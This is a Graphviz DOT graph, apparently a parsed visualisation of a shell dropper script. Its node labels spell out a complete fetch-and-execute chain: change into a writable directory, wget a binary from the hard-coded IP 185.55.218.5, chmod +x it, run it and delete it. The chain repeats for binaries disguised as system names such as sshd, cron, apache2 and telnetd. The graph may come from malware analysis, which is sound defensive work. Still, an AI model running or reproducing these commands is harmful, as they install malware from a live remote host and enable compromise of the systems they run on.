 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://185.55.218.5/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://185.55.218.5/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://185.55.218.5/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://185.55.218.5/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://185.55.218.5/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://185.55.218.5/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://185.55.218.5/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://185.55.218.5/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://185.55.218.5/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://185.55.218.5/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://185.55.218.5/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://185.55.218.5/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://185.55.218.5/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
